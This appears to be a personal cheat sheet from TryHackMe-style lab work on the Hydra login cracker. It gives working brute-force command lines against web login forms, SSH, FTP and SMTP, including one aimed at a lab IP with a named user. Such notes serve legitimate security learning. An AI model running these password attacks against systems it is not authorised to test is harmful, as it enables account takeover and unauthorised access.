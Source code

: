 --- ---
<h3>What is Hydra</h3>
Hydra is a parallelized, fast and flexible login cracker. If you don't have Hydra installed or need a Linux machine to use it, you can deploy a powerful [Kali Linux machine](https://tryhackme.com/room/kali) and control it in your browser!

Brute-forcing can be trying every combination of a password. Dictionary-attack's are also a type of brute-forcing, where we iterating through a wordlist to obtain the password.

---
<h3>Common uses and commands</h3>
Hydra can be used for various purposes such as password brute-forcing, account takeover, and network authentication testing. Some of the common commands that can be used with Hydra include:

Website
```Terminal 
hydra -l USERNAME -P PASSWORD.txt IP http-POST|GET-form "/PATH-URL/something.php:username=^USER^&password=^PASS^:INVALID-STATEMENT-HTML" -VV -T X


hydra -l phillips -P /home/ubuntu/Downloads/list.txt 10.10.206.120 http-get-form "/login-get  
/index.php:username=^USER^&password=^PASS^:S=logout.php" -f
```

- http-post-form = Request                                                             --->  <font color="Red">CHANGE POST OR GET</font>
- PATH = URL Path (From Website or BurpSuite)
- ^USER^ = Keyword to define the FUZZ of username
- ^PASS^ = Keyword to define the FUZZ of password.txt
- -t = Speed
- -VV = Verbose Enable
- Login trigger
	- S=             ---> Element on the other page (After login)
	- HTML       ---> HTML login fail element
- Tips
	- If there is no ?something=  ---> Simply add : after the URL (/account-login.php:BURP-STUFF-HERE)  
- Example
	- ![[Pasted image 20221010211610.png]]
	- ![[Pasted image 20221010211700.png]]

SSH
```Terminal 
hydra -l USERNAME -P WORDLIST.txt MACHINE_IP -t X ssh
hydra -L USERNAME.txt -P PASSWORD MACHINE_IP -t X ssh
```
- ssh = Service

FTP
```Terminal 
hydra -l user -P passlist.txt ftp://MACHINE_IP
```
- ftp:// = FTP server

SMTP
```
hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v
```

---
<h3>More Information</h3>
Hydra can be downloaded from its GitHub page at [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra). The tool is compatible with Windows, Linux, and macOS. Hydra has extensive documentation available on its GitHub page, including examples, tutorials, and user guides.

<iframe src="https://www.kali.org/tools/hydra/" width="100%" height="1300"></iframe>